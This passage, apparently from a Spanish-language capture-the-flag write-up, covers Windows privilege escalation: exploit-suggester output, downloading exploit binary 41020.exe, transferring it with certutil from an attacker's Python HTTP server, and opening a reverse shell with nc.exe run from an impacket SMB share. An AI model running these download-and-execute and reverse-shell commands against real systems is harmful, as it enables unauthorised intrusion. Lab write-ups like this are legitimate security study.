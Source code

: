 ```
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
 
```

He probado el primer exploit (`MS16-135`) pero no ha funcionado así que he probado el segundo exploit en la lista, nos descargamos el `.exe` de [https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) y nos montamos un `servidor` con `python` en nuestro equipo

```
# python -m http.server 80
```

Desde la máquina víctima nos `descargamos` el `binario`

```
PS C:\Windows\Temp\privesc> certutil.exe -urlcache -split -f http://10.10.16.16/41020.exe 41020.exe
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.
```

He `probado` este `exploit` desde la `consola` que nos da el exploit anterior y `no funciona` correctamente, se queda `congelado` todo, por lo tanto voy a `mandarme` una `shell` con `netcat` a mi equipo, para ello nos creamos un `servidor smb` en el `mismo directorio` donde se está en `nc.exe`

```
# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos ponemos en `escucha` por el `puerto 4444` en nuestra máquina

```
# nc -nlvp 4444
```

Desde la máquina víctima `ejecutamos` el `binario` y nos mandamos una `cmd` a nuestro equipo

```
PS C:\Users\kostas\Desktop> \\10.10.16.16\smbFolder\nc.exe -e cmd 10.10.16.16 4444
```

